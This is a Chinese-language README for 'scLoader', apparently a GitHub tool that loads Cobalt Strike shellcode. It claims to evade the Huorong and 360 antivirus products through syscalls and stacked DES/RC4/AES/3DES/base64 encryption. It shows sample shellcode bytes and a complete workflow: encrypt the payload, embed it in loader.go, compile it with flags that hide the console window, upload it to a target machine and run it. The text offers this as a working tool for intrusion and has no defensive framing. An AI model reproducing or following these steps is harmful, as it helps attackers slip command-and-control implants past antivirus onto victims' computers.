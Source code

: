 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用

1、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

2、将加密之后的shellcode填充到loader.go中的shellcode变量

3、按照加密顺序填充到loader.go中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

4、编译loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" loader.go
```

5、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


